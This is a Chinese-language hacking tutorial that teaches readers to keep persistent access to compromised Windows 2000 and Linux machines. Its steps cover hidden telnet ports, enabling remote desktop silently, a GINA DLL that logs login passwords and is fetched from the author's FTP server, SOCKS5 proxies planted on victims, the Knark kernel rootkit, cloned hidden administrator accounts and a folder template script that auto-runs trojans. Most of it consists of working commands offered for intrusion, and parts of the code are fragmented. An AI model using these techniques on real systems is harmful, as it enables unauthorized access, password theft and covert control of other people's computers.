大家都有过入侵机器的经历吧(别跟我说Win98系统哦)。不管你用什么方法入侵一台win2k机器后，要想下次再方便地进入，必须要给系统留个后门。说起后门，大家一定会联想到许多后门工具，例如：冰河、Remotenc、Winshell等等。

的确，这些后门工具确实很出色，但是也有一定弊端，越出色的病毒或后门就越容易被人研究，导致最后被杀毒软件查杀。万一对方机器存在比较厉害的杀毒软件，这样会很容易发生后门被封杀的情况，这样你辛辛苦苦找到的肉鸡就没了，不是很可惜吗？所以我们要充分利用系统内部自带的程序去做后门。首先我要讲如何利用Win2k自带的telnet在肉鸡上建立后门：

### 1 利用Win2k自带的telnet在肉鸡上建立后门

```
c:\>net start telnet   (这样就可以启动telnet服务)
```

Telnet 服务正在启动
Telnet 服务已经启动成功

现在肉鸡的 telnet 服务已经开启了，以后就可以用c:\>telnet xx.xx.xx.xx 来登陆了。但是telnet的默认端口是23，这每个人侵者和网管都清楚的，也是经常扫描的，为了更加隐藏我们的后门，我们需要更改默认 23 的端口：

用刚才开的 telnet 服务的 23 端口进入

```
c:\telnetxx.xx.xx.xx
**********************************
```

欢迎使用 Microsoft Telnet 服务器。
**********************************

```
C:\>tlntadmn.exe   (个程序是TELNET自带的配置文件)
```

Microsoft (R) Windows 2000 (TM) (内部版本号 2195)
Telnet Server Admin (Build 5.00.99201.1)
请在下列选项中选择一个：

- 0) 退出这个应用程序
- 1) 列出当前用户
- 2) 结束一个用户的会话 . . .
- 3) 显示 / 更改注册表设置 . . .
- 4) 开始服务
- 5) 停止服务

请键入一个选项的号码 [0 - 5]以选择该项：3
请在下列选项中选择一个：
- 0) 退出这个菜单
- 1) AllowTrustedDomain
- 2) AltKeyMapping
- 3) DefaultDomain
- 4) DefaultShell
- 5) LoginScript
- 6) MaxFailedLogins
- 7) NTLM
- 8) TelnetPort

请键入一个选项的号码 [0 - 8]以选择该项：8

TelnetPort 的当前值 = 23
您确实想更改这个值吗？[y/n]y
TelnetPort [ 当前值 = 23; ] :3003
想将 TelnetPort 设置为 : 3003y/n]y
只有当 Telnet 服务重新开始后设置才会生效。

大家都应该看明白了吧！我们把默认的23端口改成了3003端口，以后就可以用c:\telnet xx.xx.xx.xx 3003来登陆了。很方便吧？

### 2 利用Web(80端口)做后门

如果对方开启了80端口，我们还可以利用80端口做后门，这里可以利用当年的unicode漏洞的方法把c:\winnt\system32\cmd.exe copy到IIS的 scripts 目录里面，以后就调用 http://www.xx.xx.xx.xx/scripts/cmd.exe?/c+dir,只要你熟悉Win2k下的shell命令，这个问题就不算难了。

### 3 手动开启3389以界面控制Win2k机器

说到这里，大家该说了，现在哪里都有教如何开启3389的教程，但是我主要讲的是如何判断对方的机器是 Win2k server ，因为只有Win2k server或更高的版本才能开此功能，所以有些读者人侵了一个机器后，其实那个机器是win2k pro版本的，所以总也开不开3389。这里我就教大家怎么来辨别对方的机器是不是Win2k server。

(1).以shell方式进入到对方Win2k server后，正常的Win2k server里应该有以下用户。可以用c:\net user 来查看Administrator (管理员帐号)、guest(顾客帐号)、IUSR_servername (Internet来宾帐号)、IWAM_servername (启动IIS进程帐号) TsInternetUser (TsInternetUser)。以上是Win2k server默认的帐号,如果有以上的几个帐号,这个系统就差不多是Win2k server系统了。

(2) 使用c:\>query user 这个工具需要安装终端服务。这样就进一步确定了组件没有被安装,如果返回: USERNAME SESSIONNAME ID STATE IDLE TIME LOGON TIME  >w1 con-sole 0 运行中 . 2002-1-12 22:5

如果有这样的信息,那么就说明这个机器是Win2k server了。如果你的肉鸡满足以上条件,这个肉鸡就100%是个Win2k server,你就可以放心的开3389了。下面是开启3389的方法。

```
C:\>dir c:\sysoc.inf /s
(查找是否有sysoc.inf文件)
2000-01-10 20:00 3,770 sysoc.inf
1 个文件 3,770 字节
C:\> dir c:\sysocmgr.* /s
c:\WINNT\system32 的目录
2000-01-10 20:00 42,768 sysocmgr.exe
1 个文件 42,768 字节
c:\>echo [Components] > c:\rock
c:\>echo TSEnable = on >> c:\rock
c:\>type c:\rock
[Components]
TSEnable = on
c:\>sysocmgr /i:c:\winnt\inf\sysoc.inf /u:c:\rock /q
```

这一条就是真正安装组件的命令。
以上这条命令没有加/R参数,主机在安装完后自动重起。如加了/R参数,主机就不会重起。如果一切正常的话,几分钟后对方主机将会离线,当它重新回来时,3389终端服务就已经开启,你就可以连上去了。

> 如果对方的机器不能自动重启
我们可以手工让他重启，使用c:\>iisreset /reboot，对方的屏幕会出现个对话框，写着谁引起的这次启动，离重起还有多少秒。(但愿管理员没有在屏幕跟前否则…呵呵)。

以上就是利用3种手动的方法给机器开后门,如有错误,请多谅解。

## 利用DLL木马偷取账号

大家一定都用过远程溢出或其他的方法入侵过Win2k的机器吧?但是大家的肉鸡是不是拥有不久后就被管理员发现然后给挂掉了呢?那么大家该用什么方法来保护自己的肉鸡不被管理员发现是很关键的。我猜大家一定都是利用“net user admin 123 /add”和“net localgroup administrators admin /add”来建立自己的system用户吧?不过现在的管理员不是傻子,这种后门的方法已经不是那么容易就过关的了。那么就给机器开个shell端口?管理员用netstat -a也很容易被发现后门。那么就干脆给他下一个木马,你敢保证你的小马能逃过杀毒软件的追杀吗?哎!真是道高一尺魔高一丈啊,现在的后门做法还真有点伤脑筋啊。

不过今天我要给大家演示一下如何利用DLL类型木马偷取登陆在肉鸡上的帐号密码。这种后门有两点优越性：
- 1、是DLL类型的文件，所以永远不会被杀毒软件所查杀。
- 2、它可以准确地记录每一个登陆用户的密码，就可以不用自己建立帐号，而使用别人的帐号去登陆，干你想干的事情。

这里我介绍一款好的DLL后门软件，它就是netshellgina.dll。好了，现在我就教一下大家怎么用这个软件吧。

首先把netshellgina.dll传到肉鸡的system32的目录下面。然后还需要修改一下注册表。

只要在：HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon下新建立一个字串值ginadll，指向ntshellgina.dll就可以了。但是我们得到的肉鸡都是在shell命令行下执行的，怎么修改注册表呢？我们可以在本地编写一个.reg的注册表文件。然后传到主机上去执行就可以了。我们打开文本文件编辑器，在里面输入如图所示内容。


编写完毕后把保存类型改成扩展名为reg的形式即可，然后把它传到肉鸡上执行。这时候system32目录下就会生成msole32.srg的文件，所有用户登陆的密码就存放在里面，以后就可以用type查看了。

下面是我下后门的实例：👇👇👇

首先在肉鸡上登陆到我的ftp服务器里下载ntshellgina.exe和事先编辑好的ntshell.reg文件。

```
C:\ftp www.jiangchao.net
Connected to jiangchao.net:
220 u2.51.net FTP server ready.
User (jiangchao.net:(none)): kenan
331 Password required for kenan
Password:
230 kenan login in please.
ftp>dir
200 PORT command successful.
150 Opening data connection for directory
listing
-rw-rw-rw- 1 ftp ftp 1577 Jun 1 2003 ntshellgina.dll
-rw-rw-rw- 1 ftp ftp 0 Jun 1 2003 ntshell.reg
250 LIST command successful.
ftp: 573 bytes received in 0.11Seconds
5.21kbytes/sec.
ftp>
```

然后把ntshellgina.dll下载到本机(肉鸡)的system32目录下

```
ftp>get ntshellgina.dll c:\winnt\system32\
200 PORT command successful.
150 Opening data connection for /
ntshellgina.dll
250 RETR command successful.
ftp: 40960 bytes received in 8.54Seconds
4.79kbytes/sec.
ftp>
```

然后用同样的方法把ntshell.reg也传过去。

```
ftp>bye
221 Goodbye!
C:\>
```

现在开始导入注册表文件

```
c:\>cd winnt\system32
c:\winnt\system32>regedit /s ntshell.reg
c:\winnt\system32>
```


# 黑客入门实例精讲

OK！现在的基本工作就完成了，下面就等有人来登陆，我希望是管理员来登陆。

到了晚上，我想看看有没有人来登陆，于是我再次利用溢出进入到肉鸡。

```
c:\>cd winnt\system32
c:\winnt\system32>type msole32.srg
Administrator:E2#ok:DOMAIN
Suppper.love:DOMAIN
```

呵呵，运气不错，竟然有两个人在此后登陆，而且管理员也登陆了，天啊！他的密码可真复杂啊，要是用暴力破解不知道何时才能破解出来。以后你就可以用合法的管理员身份登陆了，呵呵，很幸福吧。

## 网络钓鱼

大家上QQ的时候如果QQ有显示地址的功能，那你有没有发现自己认识的人在QQ的显示地址是别的地方啊？呵呵，这就是利用了Sock5跳板代理功能，达到自己瞬间转移的效果，请看图1。


图 1

原理就是QQ里有代理功能，如果远程机器上正好有Socks5的代理服务，我们就可以与远程代理连接上，导致别人上网看见你的时候其实是看见远程服务器的地址。现在网络上有很好这样的服务器，你可以上网去搜索，不过这样的代理地址大部分都是公用的。用不了多长时间就不好使了，所以他们的寿命不长，那么怎么找个寿命长的呢？除非是私用的服务器。大家会说，那不是白说吗，哪那么容易找私用的啊。如果你们会入侵机器，那么就可以把人侵的服务器作成有Socks5代理功能的服务器，以后上网连接对方的IP就可以了，你的网友看见你，以为你在国外上网呢（呵呵！首先必须得入国外的机器啊）。

好了，接下来我就教大家如何在Win2000下和Linux下作Socks5代理吧。

## 必备工具

- SkSockServerV1.06.exe （在Win2k下的代理软件）
- socks5-v1.0r11.tar.gz（在Linux下的代理软件）

## 方法

首先必须先进入一个win2k服务器，并且得到system权限，然后下载SkSockServerV1.06.exe传到你入侵的机器里，这些怎么做就不用我说了吧。

由于我们大多数人侵都是在命令行下完成的，SkSockServer.exe也有在命令行安装的功能。那么我们现在开始安装吧。

## 命令的安装

```
c:\> SkSockServer.exe -install   /*运行并且安装*/
c:\> net start skserver   /*启动服务*/
```

HackerXFiles 93

## 后门篇 黑客入门实例精讲
www.chinesehackers.net

```
c:\>net stop skserver  /*停止服务*/
```

启动如图2。


就这3个步骤就安装完毕并且可以用了，呵呵！是不是很简单啊，不过还有一些注意的地方。

> 当SkSockServer安装完后，系统默认开启一个1813的端口，这个就是Socks5代理跳板的端口。

因为我用的是V1.06版本的，所以增加了以下功能：

```
c:\> SkSockServer -config show
[显示所有配置]
c:\> SkSockServer -config port
[显示/设置 端口]
c:\> SkSockServer -config StartType
[显示/设置 服务启动方式]
c:\> SkSockServer -config client [add/del]
[显示/增加/删除 客户端的项目]
c:\> SkSockServer -config SkServer [add/del]
[显示/增加/删除 经过 SkServer 的项目]
```

OK！以上就是在肉鸡上做的代理设置，那么我怎么用QQ与他连接呢？请往下看：首先打开QQ的系统参数对话框，然后选择[网络设置]，如图3。


在使用Socks5代理服务器的前面打上对号，在里面的代理服务器地址框里填入肉鸡的IP地址，然后在端口号的框里填入你安跳板时的端口号，如果你装的时候没对端口进行设置的话，默认的就是1813这个端口。然后点击“测试”，如果代理正常，就会出现测试成功的字样。然后选择确定回到QQ界面，这时候你还必须让QQ离线，然后再上线就可以了。

说完了如何在Win2k下做代理，下面该在Linux下做代理了。这回我用Red Hat Linux来做socks5代理。首先把socks5-V1.0r11.tar.gz解压，然后就进入该目录：

```
./configure --with-threads
make
make install
启动命令: /usr/local/bin/socks5
停止命令: /usr/local/bin/stopsocks
下面开始配置socks5
# vi /etc/socks5.conf
auth --u                (采用/user/
password方式认证)
permit u---sinbad       (表示允许sinbad
用户使用本代理)
interface --A.B.C.D     (用外部IP)
# vi /etc/socks5.passwd
jiangchao    12345      (这里的用户是
jiangchao 密码是12345)
```

以上就是win2k和linux两种服务器做socks5代理的方法，大家是不是也想试试啊！不过，如果你的肉鸡速度不快的话，在测试的时候虽然会显示代理正常，当你用它登陆的时候，却很长时间才能上去，有时候还上不去。所以大家不要把所有的肉鸡都设置成Socks5代理，要选择网速快的。如果你的肉鸡地理位置好，以后你上网的时候就风光了，而且还有隐藏自己真实IP躲避攻击的效果。

94 黑客X档案

## 3389下的后门检测

随着网络技术的发展，黑客入侵后所留下的后门技巧也是千千万万，这次我要介绍的是在Win2k的注册表安装后门的技术。

2003年某时，我登陆到我心爱的3389肉鸡上去扫描日本网站。由于它是一个网吧的服务器，所以安全性不高，在线率又高，所以我愿意用他做跳板扫描，但是当登陆后问题发生了。当我在3389客户端成功进入对方的桌面的时候，在屏幕上突然闪了一下cmd的命令提示框，然后就消失了。因为当时有要事在身，就没太注意。当我打开对方的C盘，无意中发现了一个文本文件——SanTuo.txt。

由于好奇，便打开了这个文件，打开后一开，天啊！这里怎么是我刚刚用3389登陆的用户名和密码？图[1]。


随之我本能地想起了登陆时瞬间闪没的cmd命令提示框。于是我打开“开始->程序->启动”。但是什么都没有，看来他的程序启动挺隐蔽的。于是我首先想到查看进程可以来查程序。由于是3389登陆，所以不能用Ctrl+Alt+Del来打开（但是我们可以用Ctrl+Alt+End，它的作用相当于在远程主机图形界面下按Ctrl+Alt+Del），所以在任务栏点右键，选择“任务管理器”。图[2]。

但是没有发现有什么可疑的程序。于是我选择了显示所有用户进程。图[3]。

这么多的进程啊？看来很难找，有没有发现在进程表里面有2个explorer.exe？所以凭感觉这里一定有一个是后门程序。于是我使用搜索工具搜索。图[4]。

果然有一个是后门程序，再看看他的位置。原来在c:\winnt\system32\update下。进去后，除了explorer.exe，还有许多攻击程序。那么这肯定


## 后门篇 黑客入门实例精讲

是人侵的后门工具目录了。里面还有一个abc.reg和几个批处理文件，让我来看看都是什么？

这下大家都知道了吧！入侵者先利用自己建立的注册表文件，在“...\CurrentVersion\Run”里建立用户登陆时自己启动startup.bat文件的程序。再打开注册表看看。图[5]。

果然如此。由于startup.bat也在c:\winnt\system32\update目录下，用编辑方式打开startup.bat文件，图[6]。

原来最后的目的是自动启动explorer.exe来运行嗅探器的。真正的嗅探器果然是exploer.exe，因为自身是警校的学生，所以不能眼看着机器让人被嗅探。所以在进程里面先杀掉假的explorer.exe进程。然后在注册表里删除所有run里启动的批处理文件。最后清除update目录下的攻击程序。图[7]。


## 高手的后门技术

大家成功入侵系统后使用一般黑客所使用的后门技巧，对一些经验过硬的管理员来说很容易被发现。那么我们怎么做一些高难度的后门技术呢？我们要的效果是连管理员都发觉不到的后门。

其实这种后门在高手中很流行，而且十分出色，那么这到底是什么后门呢？他就是LKM后门。所谓的LKM后门，他就是可加载内核模块的后门，这种后门的好处是可以被动态加载，而且不需要从新编译内核。

关于LKM，我们需要对一些相关的重要文件、目录以及程序有一个基本了解，首先进入linux的`lib/modules/`：`kernel_version`目录：

```
# ls -laF
total 50
drwxr-xr-x   11 root     root          ./
drwxr-xr-x    4 root     root          ../
-rw-r--r--    1 root     root          .
rhmvtag
drwxr-xr-x    2 root     root          block/
drwxr-xr-x    2 root     root          cdrom/
drwxr-xr-x    2 root     root          fs/
drwxr-xr-x    2 root     root          ipv4/
drwxr-xr-x    2 root     root          misc/
-rw-r--r--    1 root     root          modules.dep
-rw-r--r--    1 root     root          modules.generic_string
-rw-r--r--    1 root     root          modules.isapnpmap
```

黑防精华本

# 黑客入门实例精讲

```
modules.isapnpmap
-rw-r--r--  1 root  root
modules.parportmap
-rw-r--r--  1 root  root
modules.poimap
-rw-r--r--  1 root  root
modules.usbmap
drwxr-xr-x  2 root  root  1996 net/
drwxr-xr-x  2 root  root        pcmcia/
drwxr-xr-x  2 root  root        scsi/
drwxr-xr-x  2 root  root        video/
```

在这个目录有以下几个文件与LKM有关系，这些命令都在/sbin的目录下，如果要使用这些命令，必须先切换到/sbin的目录。常用命令如下：

- modprobe：从modules.dep来查找各个模块的依赖关系，然后加载进去
- depmod：处理模块从属关系
- lsmod：查看系统中加载的模块情况（非常有用）
- insmod：加载内核模块的命令，如果要加载后门模块，也需要insmod -f troja.o
- rmmod：从内核中删去模块

以上是关于LKM内模块的简介：因为LKM后门的工具不是在任何版本内核的Linux下使用，每个版本的LKM对应不同内核的Linux系统。下面我来介绍一下基于Linux2.2内核的LKM后门软件，他就是Knark。下面我们看看怎么使用吧。

```
# lsmod    //查看系统中加载的模块情况，如下：
Module    Size  Used by
ne2k-pci    4688    1  (autoclean)
8390    6144    0  (autoclean) [ne2k-pci]
# insmod   knark.o
// 开始加载内核模块
# lsmod    //再次看系统中加载的模块情况，如下：
Module    Size  Used by
knark    6944    0  (unused)
```

```
<------- 插入的lkm后门可以由lsmod查出
ne2k-pci                4688    1
(autoclean)
8390                    6144    0
(autoclean) [ne2k-pci]
# insmod  modhide.o
<------- 插入modhide模块
# lsmod
<------- 没有knark模块了
Module                  Size  Used by
ne2k-pci                4688    1
(autoclean)
8390                    6144    0
(autoclean) [ne2k-pci]
```

knark的主要功能有隐藏文件、隐藏进程、重定向执行程序、隐藏网络连接、以root身份运行命令、改变用户id、远程执行命令(该功能尚不完善，作者自己注释了)。它还有几个比较不错的特性，如：隐藏SIOCGIFFLAGS的标志位中IFF_PROMISC——接口为随机(promiscuous)模式的项，这可以防止部份检测网卡是否为混杂模式的工具发现入侵行为；另外，它能够用kill发送一个31的信号给某进程，以隐藏之。

```
# ps -aux |grep quack
root        412  0.0  1.7 2232 1116
pts/0    S    17:02   0:00 login -- quack
quack       413  0.0  1.5 1700  940
pts/0    S    17:02   0:00 -bash
# kill -31 412 413
# ps -aux |grep quack
```

同时它为了入侵者的方便查询，把一些隐藏起来的文件、进程等信息放在/proc/knark里。
以上这些就是高手们在入侵后所做的后门，由于这种后门做起来非常麻烦，首先还得分析机器是哪个版本的内核，然后才能对症下药，所以黑客通常只有入侵了一台资源和网速特别好的机器才使用的。请各位菜鸟了解一下。


## 让被限制的用户照样登陆
## 以管理员身份登陆

## 前言

如今做个黑客真是不容易啊，好不容易找到许多肉鸡，到最后总是使不上多长时间就被发现，我相信大家一定有同样的感受。那么被发现的原因是什么呢？不就是留的后门太明显吗？对！那大家怎么才能做个很隐蔽的后门不被管理员发现呢？

其实这也很容易，在本书的另类经典分析栏目里的《克隆Win2k帐号分析》已经介绍了关于帐号后门的管理和黑客的惯用手法。那么我就根据这个来演示一下如何让被禁止的用户照样登陆的方法。这样就可以避免管理员的追杀了。

### 预备

首先我们先得有一个工具——psu.exe

**软件说明：**

用来建立隐藏的超级用户的最佳软件

**使用说明：**

psu [参数选项]

-p <要运行的文件名>
- 写全可执行文件的路径哦，如需带参数，请用" 括起来
-i <要su 到的进程号>
- 该选项可选，默认su 到的进程为system.

**举例如下：**

psu -p C:\winnt\notepad.exe
psu -p C:\winnt\notepad.exe -i 1234
psu -p "C:\winnt\system32\cmd.exe /K"

首先我们得知道关于pid 的知识，这里我就不详细讲了，如有不清楚请浏览《克隆Win2k帐号分析》文章。

### 实战

当我们成功的人侵一台win2k服务器后(嘻嘻！我这里就不用告诉大家怎么入侵了吧！相信大家已经相当精通了) 就要给装上后门。

**制作后门步骤如下：**

(1)首先打开 windows 任务管理器，找到winlogon.exe 的pid 值,如图[1]。


(2)然后进入cmd.exe使用psu.exe
用法：[**psu -p regedit -i pid**]
如图[2]。

(3)打开注册表展开到：

HKEY_LOCAL_MACHINE\SAM
\SAM\Domains\Account\Users
如图[3]。

(4)然后将Guest克隆成管理员，首先把注册表展开到：

```
HKEY_LOCAL_MACHINE\SAM\
SAM\Domains\Account\Users\00000400
```

如图[4]。

(5)然后把0000040里的数据复制到：

```
HKEY_LOCAL_MACHINE\SAM
\SAM\Domains\Account\Users\000001F5
```

如图[5]。

(6)最后导出Guest的配置 然后删除Guest的配置。

(7)现在打开计算机管理窗口，刷新用户列表，这时候会出现“找不到帐户”的错误对话框。
如图[6]。

(7)将Guest的配置导进注册表，再刷新计算机管理，Guest帐户出现 错误提示已经没有了。

(8)在cmd.exe下修改Guest帐户密码,命令行下禁用Guest帐户：

```
C:\>net user guest 12345
```

命令成功完成。

```
C:\>net user guest /active:no
```

命令成功完成。

好了，以上就是把Guest帐号克隆成具有管理员权限帐号的过程，并且即使Guest帐号被禁止了，我们还是照样可以用这个帐号登陆的，怎么样？这种后门技术是不是很棒啊！


## 前言

本章介绍一些比较新鲜的技术和原理（里面还有大家以前没见过的技术），希望大家看了之后能提高自己的技术，丰富知识面。

作为一个黑客（自称的），不要只想着如何利用别人做的软件去攻击和入侵对方，这样做是很低级的，不过能懂得这些就已经很不错了，总比那些不懂得原理只知道在网上乱下载盗QQ号的软件和用冰河去入侵个人电脑的人要好得多，这种人还总称自己是黑客，很让人瞧不起。所以大家要做个懂原理的黑客，即使自己开发不出黑客软件，也要利用系统自带的东西，作出特别的事情来。

本章就是讲一些比较另类的分析，主要是以系统自带的工具做出令人意想不到的效果，具体是什么，就快点看本章的精彩内容吧！


## 另类方式安装木马

大家利用3389入侵Win2k系统后，我猜大家第一时间内都会给人侵的机器安装木马吧，但是大家是不是有时候不想让木马马上启动，而想让管理员自己启动木马呢？

那么这时候大家一定都会想到用AutoRun的启动方法让管理员打开某个文件夹的时候，木马就会立即启动，但是这样有个缺点，就是使用正常双击文件夹的时候不能打开文件夹，只有点击鼠标右键中的打开方式才可以进入，这样再傻的管理员也会发现有间题。所以这种方法非常不实用。

但是我这次要讲的利用文件夹安装木马，就安全多了。下面我给大家演示一下另类安装木马的方法，就是利用文件夹安装木马。

测试环境：windows2000任何版本。

首先我在d:\下建立一个jiangchao的文件夹，我就拿这个文件夹来做示范。

- 1. 进入d:\jiangchao下，选择“查看”—“文件夹选项”—“查看”。
- 2. 把“隐藏受保护的操作系统文件”前的对号去掉。如图[1]。
- 3. 选择“显示所有文件和文件夹”，然后确定。
- 4. 选择“查看”—“自定义文件夹”，如图[2]，这时候文件夹里会出现一个folder.htt文件，它是一个模板文件。
- 5. 我们用文本形式打开这个folder.htt。并且编辑它，在图[3]的位置加入以下代码：

```html
<script language=javascript>
run_exe="<OBJECT ID=\"RUNIT\" WIDTH=0 HEIGHT=0 TYPE=\"application/x-oleobject\">";
run_exe+="<PARAM NAME=\"CommandLine\" VALUE=\"\">";
```


HackerXFiles 101

## 经典男客研究 黑客入门实例精讲

www.hackbase.com

```
1,1,1\">"
run_exe+="<PARAM NAME=\"_Version\"
value=\"65536\">"
run_exe+="</OBJECT>"
document.open();
document.clear();
document.writeln(run_exe);
document.close();
</script>
```

代码里的ceshi.exe为你要安装的木马文件，你可以先放一个有窗口的可执行文件做一下测试(目的是看能不能正确启动)。现在我们把这个要运行的ceshi.exe文件copy到这个文件夹里，然后再把文件查看属性修改回去，然后从新进入该文件夹，这时你就会看到那个文件自动执行了，想想看要是换了无窗口的木马文件，你还能发觉吗？如果你不想要木马立即运行，那就等管理员来运行这个文件夹吧。

注意！如果有什么文件要隐藏，就可以放到folder.htt和同目录下，把文件夹属性设置回去以后，用搜索都找不到这个文件。

### 如何在命令行下修改本地和远程端口

现在服务器的默认端口已经成为安全隐患的一个重要方面，例如对方开启了23（telnet）、3389（termsrv）、21（ftp）等等。入侵者一探测就用这些端口的已知漏洞加以攻击，万一你的防护措施不严，很容易导致服务器被攻击，所以改端口是必要工作，这样可以减少黑客对我们的攻击。我这次讲的是如何在命令行（shell）方式下修改本地和远程端口，那就一起来看看我是怎么做的吧。

```
Reg add "\\ip\HKLM\SYSTEM\Current
ControlSet\Control\TerminalServer\WinStations
\RDP-Tcp" /v portnumber /t reg_dword
/ d 123 /f
《修改超级终端的端口》

Reg add "\\ip\HKLM\SYSTEM\Current
ControlSet\Control\ServiceProvider\ServiceType
s\SMTP SVC" /v tcpport /t reg_dword /d
123 /f
《修改Smtp邮件端口》
```

```
Reg add "\\ip\HKLM\SOFTWARE\Micro
soft\TelnetServer\Defaults" /v telnetport
/ t reg_dword /d 123
《修改telnet远程登陆端口》

Reg add "\\ip\HKLM\SYSTEM\Current
ControlSet\Control\ServiceProvider\ServiceType
s\MSFTPSVC" /v tcpport /t reg_dword /
d 123 /f
《修改ftp传送文件端口》
```

如果显示Error: The network path was not found.
则说明对方没有开启Remote Registry Service服务
那么用命令：c: \net start remoteregistry
本教程就是教大家干什么事都有多种方法办到的，读完本书，希望能让大家举一反三。

102 黑客X档案

## 克隆Win2k帐号以及临时隐藏帐号的方法

当大家成功入侵一台Win2000系统后，首先都想到干什么呢？呵呵，我猜大家一定都是用“net user admin 1234 /add”和“net localgroup administrators admin /add”来添加一个有system权限的用户吧？但是如果对方系统的用户很少，你添加一个之后管理员很容易发觉，导致辛辛苦苦得到的肉鸡就这样没了，是不是很不甘心啊，那么我们应该怎么办啊？

这里我们就要在帐号技术的方面运用一些高级技巧了，这次我就要跟大家一起来研究帐号克隆的技术。

在分析如何克隆Win2k帐号之前,大家都应该用过小榕写的CA.exe吧！这是一个专门用来克隆Win2k帐号的软件，我相信大家一定都会用他吧，但是我这次不是要讲怎么用CA，而是给大家介绍克隆的原理。我相信有一半的读者都不知道吧,好的,现在我来给大家分析一下在Win2k下黑客是如何手动克隆帐号的！


首先大家要知道，Win2k操作系统和linux下的都是使用唯一的标识来引用用户帐户，因此，在每个帐户创建时都被赋予了一个唯一的SID（security、identifical、descriptor）,并且即使我们再重建一个先前已经删除的同名帐户，该帐户也不具备老帐户的权限和访问许可权。

SID的格式为：**S-R-A-S-S-S-S**
**S** —指这是个SID
**R** —版本号
**A** —用于标识发放SID的当局，如5指NT/2000
**S** —下属值，是一系列号码，对用户进行唯一的标识

|  |  |
| --- | --- |
| 如：S-1-5-21-1085031214-492894223-1060284298-500<br>21-1085031214-492894223-1060284298为下属值，唯一地标识域和工作组<br>500表示为administrator。 |  |

在Win2k里默认管理员帐号的SID是固定的500（0x1f4），那么我们可以用机器里已经存在的一个帐号将SID为500的帐号进行克隆，在这里我们选择的帐号是IUSR_MachineName（因为要加强隐蔽性，所以选择了这个帐号，所有用户都可以用以下的方法，只不过这个用户较常见罢了）。

好了,了解完sid之后,我们开始研究如何去克隆帐号了。

运行一个System的CMD Shell psu.exe，然后在CMD Shell里面运行
`regedit /e adam.regHKEY_LOCAL`

# 黑客入门实例精讲

_MACHINE\SAM\SAM\Domains\Account\Users\000001F4

这样我们将SID为500的管理员帐号的相关信息导出,然后编辑adam.reg文件,将adam.reg文件的第三行:

**[HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\000001F4]**

最后的“1F4”修改为IUSR_MachineName的SID(大部分的机器该用户的SID都为0x3E9,如果机器在最初安装的时候没有安装IIS,而自己创建了帐号后再安装IIS就有可能不是这个值),将Root.reg文件中的“1F4”修改为“1F4”后执行: **regedit /s adam.reg**

导入该Reg文件

然后运行

**c:\net user IUSR_MachineName jiangchao**

修改IUSR_MachineName的密码

好了,现在已经完成了,并且拥有和默认管理员一样的桌面。

然后我运行:

```
net localgroup administrators
C:\>net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

Administrator
The command completed successfully.
```

再看看USER2SID的输出结果:

```
C:\>user2sid Administrator
S-1-5-21-1004336348-1078145449-854245398-500
Number of subauthorities is 5
Domain is IDONTKNOW
Length of SID in memory is 28 bytes
Type of SID is SidTypeUser
C:\>user2sid iusr_machinename
S-1-5-21-1004336348-1078145449-854245398-1001
Number of subauthorities is 5
Domain is IDONTKNOW
Length of SID in memory is 28 bytes
Type of SID is SidTypeUser
```

现在, Administrator就看不到任何的异状了,更绝的是无论管理员把我们的帐号改成什么密码,我照样可以用IUSR_MachineName,密码为jiangchao登陆。

### 实战

以上说了这么多理论的东西,下面大家看看在实战中黑客都是用什么样的方法来隐藏帐号的?不过,需要指出的是,以下隐藏方法仅限于当次隐藏,如果目标机器重启的话,隐藏的帐号就暴露无遗了,感兴趣的朋友可以参考网上相关的讨论。

- (1)、假设我们是以管理员Administrator登录到开有终端服务的肉鸡上的,首先在命令行下或帐户管理器中建立一个帐户:hacker$,这里我在命令行下建立这个帐户 “**net user hacker$ 1234 /add** ”
- (2)、在开始/运行中输入 “**regedt32.exe**” 并回车来运行regedt32.exe。
- (3)、点“权限”以后会弹出窗口,点添加将我来登录时的帐户添加到安全栏内,这里我是以administrator的身份登录的,所以我就将ad-

104 黑客X档案

# 黑客入门实例精讲

ministrator加入，并设置权限为“完全控制”。这里需要说明一下，最好是添加你登录的帐户或帐户所在的组，切莫修改原有的帐户或组，否则将会带来一系列不必要的问题。等隐藏超级用户建好前，再来这里将你添加的帐户删除即可。

- （4）、再点“开始”→“运行”并输入“regedit.exe”回车，启动注册表编辑器regedit.exe。打开键值：
“HKEY_LOCAL_MAICHINE\SAM\SAM\Domains\account\user\names\hacker$”
- （5）、将项hacker$、00000409、000001F4导出为hacker.reg、409.reg、1f4.reg，用记事本分别将这几个导出的文件进行编辑，将超级用户对应的项000001F4下的键“F”的值复制，并覆盖hacker$对应的项00000409下的键“F”的值，然后再将00000409.reg与hacker.reg合并。
- （6）、在命令行下执行“net user hacker$ /del”将用户hacker$删除。
- （7）、在regedit.exe的窗口内按F5刷新，然后打文件→导入注册表文件，将修改好的hacker.reg导入注册表即可。
- （8）、到此，隐藏的超级用户hacker$已经建好了，然后关闭regedit.exe。在regedt32.exe窗口内把“HKEY_LOCAL_MACHINE\SAM\SAM”键权限改回原来的样子（只要删除添加的帐户administrator即可）。
- （9）、隐藏的超级用户建好后，在帐户管理器看不到hacker$这个用户，在命令行用“net user”命令也看不到，但是超级用户建立以后，就不能再改密码了，如果用net user命令来改hacker$的密码的话，那么在帐户管理器中又会看到这个隐藏的超级用户了，而且不能删除。

### （二）、到肉鸡上建立隐藏的超级用户

在这里将用at命令，因为用at产生的计划任务是以系统身份运行的，所以也用不到psu.exe程序。为了能够使用at命令，肉鸡必须开有schedule的服务，如果没有开启，可用流光里带的工具netsvc.exe或sc.exe来远程启动，当然其它方法也可以，只要能启动schedule服务就行。对于命令行方式，你可以采用各种方式，如用SQLexec连接MSSQL的1433端口，也可以用telnet服务，只要你能得到一个cmdshell，并且有运行at命令的权限就可以。

- （1）首先找到一台肉鸡，这里先假设找到一台超级用户为administrator,密码为abcd的肉鸡，现在我们开始在命令行下远程为它建立隐藏的超级用户。
- （2）先与肉鸡建立连接,命令为：`net use \xx.xx.xx.xx\ipc$ "abcd" /user:"administrator"`
- （3）用at命令在肉鸡上建立一个用户(如果at服务没有启动，可用小榕的netsvc.exe或sc.exe来远程启动):`at \xx.xx.xx 12:51 c:\winnt\system32\net.exe user hacker$ 1234 /add`
建立这个加有$符的用户名，是因为加有$符后，命令行下用net user将不显示这个用户，但在帐户管理器却能看到这个用户。
